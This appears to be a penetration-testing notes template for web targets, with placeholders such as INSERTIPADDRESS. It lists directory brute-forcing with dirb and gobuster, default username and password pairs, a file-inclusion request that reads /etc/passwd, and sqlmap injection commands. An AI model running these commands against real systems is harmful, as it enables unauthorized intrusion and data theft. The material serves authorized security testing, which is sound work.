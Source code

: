 **Nikto scan**

INSERTNIKTOSCAN

**Url brute force**

```
# Not recursive
dirb http://INSERTIPADDRESS -r -o dirb-INSERTIPADDRESS.txt

# Gobuster - remove relevant responde codes (403 for example)
gobuster -u http://INSERTIPADDRESS -w /usr/share/seclists/Discovery/Web_Content/common.txt -s '200,204,301,302,307,403,500' -e
```

INSERTDIRBSCAN

**Default/Weak login**

Search documentation for default passwords and test them

```
site:webapplication.com password
```

```
admin admin
admin password
admin <blank>
admin <servicename>
root root
root admin
root password
root <servicename>
<username if you have> password
<username if you have> admin
<username if you have> username
username <servicename>
```

**LFI/RFI**

```
fimap -u "http://INSERTIPADDRESS/example.php?test="

# Ordered output
curl -s http://INSERTIPADDRESS/gallery.php?page=/etc/passwd
/root/Tools/Kadimus/kadimus -u http://INSERTIPADDRESS/example.php?page=
```

**SQL-Injection**

```
# Post
./sqlmap.py -r search-test.txt -p tfUPass

# Get
sqlmap -u "http://INSERTIPADDRESS/index.php?id=1" --dbms=mysql

# Crawl
sqlmap -u http://INSERTIPADDRESS --dbms=mysql --crawl=3
```
